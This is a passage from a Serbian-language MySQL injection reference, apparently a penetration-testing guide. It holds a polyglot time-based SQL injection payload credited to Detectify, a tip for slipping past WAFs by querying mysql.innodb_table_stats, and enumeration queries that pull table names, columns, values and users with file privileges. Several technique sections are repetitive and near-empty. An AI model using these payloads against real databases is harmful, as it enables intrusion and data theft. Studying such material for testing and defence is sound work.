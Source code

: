 #### Ubrizgavanje bazirano na višestrukim upitima

Ubrizgavanje bazirano na višestrukim upitima je tehnika koja se koristi kada se izvršava više SQL upita odjednom. Napadač može iskoristiti ovu tehniku kako bi izvršio zlonamerni SQL kod i dobio informacije o bazi podataka.

#### Ubrizgavanje bazirano na funkcijama

Ubrizgavanje bazirano na funkcijama je tehnika koja se koristi kada se koriste SQL funkcije. Napadač može iskoristiti ovu tehniku kako bi izvršio zlonamerni SQL kod i dobio informacije o bazi podataka.

#### Ubrizgavanje bazirano na izvršavanju sistema

Ubrizgavanje bazirano na izvršavanju sistema je tehnika koja se koristi kada se koristi SQL funkcija koja omogućava izvršavanje sistema. Napadač može iskoristiti ovu tehniku kako bi izvršio zlonamerni kod na serveru baze podataka.

#### Ubrizgavanje bazirano na izvršavanju datoteka

Ubrizgavanje bazirano na izvršavanju datoteka je tehnika koja se koristi kada se koristi SQL funkcija koja omogućava izvršavanje datoteka. Napadač može iskoristiti ovu tehniku kako bi izvršio zlonamerni kod na serveru baze podataka.

#### Ubrizgavanje bazirano na izvršavanju operativnog sistema

Ubrizgavanje bazirano na izvršavanju operativnog sistema je tehnika koja se koristi kada se koristi SQL funkcija koja omogućava izvršavanje operativnog sistema. Napadač može iskoristiti ovu tehniku kako bi izvršio zlonamerni kod na serveru baze podataka.

```sql
SELECT * FROM some_table WHERE double_quotes = "IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/"
```

sa [https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/](https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/)

## Tok

Zapamtite da u "modernim" verzijama **MySQL**-a možete zameniti "_**information\_schema.tables**_" sa "_**mysql.innodb\_table\_stats**_**"** (Ovo može biti korisno za zaobilaženje WAF-ova).

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema=database();#Get name of the tables
SELECT column_name FROM information_schema.columns WHERE table_name="<TABLE_NAME>"; #Get name of the columns of the table
SELECT <COLUMN1>,<COLUMN2> FROM <TABLE_NAME>; #Get values
SELECT user FROM mysql.user WHERE file_priv='Y'; #Users with file privileges
```

### **Samo 1 vrednost**
